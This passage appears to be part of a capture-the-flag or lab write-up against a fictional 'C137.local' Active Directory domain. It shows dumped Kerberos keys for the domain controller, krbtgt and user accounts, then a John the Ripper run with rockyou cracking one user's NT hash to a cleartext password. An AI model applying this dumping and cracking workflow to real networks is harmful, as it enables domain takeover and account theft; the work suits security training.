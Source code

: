 ```shell
CITADEL-DC01$:aes128-cts-hmac-sha1-96:9324dad1f82699bf65cdbfd5a4572067
CITADEL-DC01$:des-cbc-md5:94abfd29f1929d19
krbtgt:aes256-cts-hmac-sha1-96:141aca9186cc33caa6ef3db5cf3a53b783bd29e7431a153c89f8b1d4562de7f1
krbtgt:aes128-cts-hmac-sha1-96:d695009f7f7b6eb48a6b1b749493f199
krbtgt:des-cbc-md5:b025018c62ec023b
C137.local\jerrysmith:aes256-cts-hmac-sha1-96:87eb9c5715de1eb078cc6691871672019356976f093348c03b0ca21a75fc0e9f
C137.local\jerrysmith:aes128-cts-hmac-sha1-96:ea468a0f250c15fea4e8f4c74d20c56e
C137.local\jerrysmith:des-cbc-md5:7c40d03464e5e9a8
C137.local\summersmith:aes256-cts-hmac-sha1-96:38060a9e953e8dde6e991db5de72e566c8a652c195b0e88d9c81e26d05ee1ce5
C137.local\summersmith:aes128-cts-hmac-sha1-96:8851e24f50c80026e2e1578a2a3d3802
C137.local\summersmith:des-cbc-md5:3bd09e3b73bfb0f4
C137.local\ricksanchez:aes256-cts-hmac-sha1-96:08bc14d8f69e1ceadd0079303cd1bc434ed61d6a4895f71073662ff24eb8e4dd
C137.local\ricksanchez:aes128-cts-hmac-sha1-96:0c428543d20db44c45cbf6948b4cf5d4
C137.local\ricksanchez:des-cbc-md5:cdf891a75889f107
C137.local\mortysmith:aes256-cts-hmac-sha1-96:ee5442baa6535d2580ac694ac6c0cbe3a65f137ba3ace39a18cba58a160ce73c
C137.local\mortysmith:aes128-cts-hmac-sha1-96:697ece25fd3cffbfa24d82ab9789596c
C137.local\mortysmith:des-cbc-md5:3280f79b131aea4c
C137.local\bethsmith:aes256-cts-hmac-sha1-96:1e98c29b4ba43d21d200bd1802ff5109c0549621931e2f3af0c0809099405b88
C137.local\bethsmith:aes128-cts-hmac-sha1-96:ea3285637fe5bb216bcd5cd0cfbc6663
C137.local\bethsmith:des-cbc-md5:151f891ff4cb6b4f
C137.local\birdman:aes256-cts-hmac-sha1-96:f20039a71fad3a9a0a374c09e55f1d1bed1600c2329fee84aada8a502d903023
C137.local\birdman:aes128-cts-hmac-sha1-96:6507f6ac1b4ec9c23e65d1528ec92ec1
C137.local\birdman:des-cbc-md5:2f4068527aeafb85
DESKTOP-SDN1RPT$:aes256-cts-hmac-sha1-96:424f9a36c72c7bec7a2f7082111ed818c375e8945e6cfc9bc599b6587fb1b3ea
DESKTOP-SDN1RPT$:aes128-cts-hmac-sha1-96:14122a1520d70f1dc6fccbf8aee330b0
DESKTOP-SDN1RPT$:des-cbc-md5:6d20ad583729b03e
[*] Cleaning up... 
```

```shell
ls -l hashes.txt*    
-rw-r--r-- 1 zarkyo zarkyo  999 28 oct.  20:53 hashes.txt.ntds
-rw-r--r-- 1 zarkyo zarkyo    0 28 oct.  20:53 hashes.txt.ntds.cleartext
-rw-r--r-- 1 zarkyo zarkyo 2079 28 oct.  20:53 hashes.txt.ntds.kerberos
```

```shell
john --wordlist=~rockyou.txt hashes.txt.ntds --format=NT
Using default input encoding: UTF-8
Loaded 1 password hash (NT [MD4 128/128 AVX 4x3])
Warning: no OpenMP support for this hash type, consider --fork=16
Press 'q' or Ctrl-C to abort, almost any other key for status
!BETHEYBOO12!    (C137.local\jerrysmith)
1g 0:00:00:00 DONE (2023-10-28 21:01) 1.562g/s 22407Kp/s 22407Kc/s 22407KC/s !Cu9^c..!BBLE23!
Use the "--show --format=NT" options to display all of the cracked passwords reliably
Session completed
```
